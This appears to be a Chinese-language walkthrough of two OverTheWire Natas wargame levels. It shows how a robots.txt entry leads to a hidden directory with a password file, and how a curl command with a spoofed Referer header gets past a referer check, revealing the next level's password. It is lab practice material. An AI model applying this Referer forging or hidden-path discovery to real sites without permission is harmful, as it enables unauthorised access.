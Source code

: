 ## 4. robots协议也叫robots.txt（统一小写）是一种存放于网站根目录下的ASCII编码的文本文件，它通常告诉网络搜索引擎的漫游器（又称网络蜘蛛），此网站中的哪些内容是不应被搜索引擎的漫游器获取的，哪些是可以被漫游器获取的。

访问目录下的robots.txt,得目录/s3cr3t/,访问该目录，得users.txt

```
//robots.txt
User-agent: *
Disallow: /s3cr3t/

//users.txt
natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
```

## 5. curl命令

```
C:\Users\channy>curl -isu natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ natas4.natas.labs.overthewire.org --referer "http://natas5.natas.labs.overthewire.org/"
HTTP/1.1 200 OK
Date: Wed, 26 Feb 2020 11:54:41 GMT
Server: Apache/2.4.10 (Debian)
Vary: Accept-Encoding
Content-Length: 962
Content-Type: text/html; charset=UTF-8

<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```

